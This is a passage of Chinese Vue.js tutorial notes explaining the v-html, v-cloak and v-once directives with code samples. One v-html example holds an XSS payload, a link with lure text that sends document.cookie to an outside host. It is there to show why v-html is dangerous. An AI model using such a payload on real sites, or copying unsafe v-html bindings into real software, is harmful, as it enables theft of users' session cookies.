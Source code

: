 ```vue
<!-- 准备好一个容器-->
<div id="root">
    <div>你好，{{name}}</div>
    <div v-html="str"></div>
    <div v-html="str2"></div>
</div>

<script type="text/javascript">
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

    new Vue({
        el:'#root',
        data:{
            name:'张三',
            str:'<h3>你好啊！</h3>',
            str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
        }
    })
</script>
```

**v-cloak指令（没有值）：**

* 本质是一个特殊属性，Vue实例创建完毕并接管容器后，会删掉v-cloak属性。
* 使用css配合v-cloak可以解决网速慢时页面展示出{{xxx}}的问题。

```vue
<style>
    [v-cloak]{
        display:none;
    }
</style>
<!-- 准备好一个容器-->
<div id="root">
    <h2 v-cloak>{{name}}</h2>
</div>
<script type="text/javascript" src="http://localhost:8080/resource/5s/vue.js"></script>

<script type="text/javascript">
    console.log(1)
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

    new Vue({
        el:'#root',
        data:{
            name:'尚硅谷'
        }
    })
</script>
```

**v-once指令：**(用的少)
